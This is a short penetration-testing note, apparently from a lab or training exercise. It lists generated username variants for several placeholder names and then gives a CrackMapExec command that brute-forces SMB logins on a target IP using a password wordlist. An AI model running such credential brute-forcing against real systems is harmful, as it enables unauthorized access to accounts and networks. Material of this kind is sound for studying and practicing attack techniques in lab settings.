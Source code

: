 ```bash
bob
bobburgerstien
bob.burgerstien
bobburge
bobburg
bobb
b.burgerstien
bburgerstien
bbob
b.bob
burgerstienb
burgerstien
burgerstien.b
burgerstien.bob
bb
jim
jimstevenson
jim.stevenson
jimsteve
jimstev
jims
j.stevenson
jstevenson
sjim
s.jim
stevensonj
stevenson
stevenson.j
stevenson.jim
js
jill
jilljohnson
jill.johnson
jilljohn
jillj
j.johnson
jjohnson
jjill
j.jill
johnsonj
johnson
johnson.j
johnson.jill
jj
jane
janedoe
jane.doe
janed
j.doe
jdoe
djane
d.jane
doej
doe
doe.j
doe.jane
jd
```
## Using **CrackMapExec** to bruteforce smb:
```bash
Attacker@xxx[/xxx]$ crackmapexec smb <IP> -u bwilliamson -p /usr/share/wordlists/fasttrack.txt

```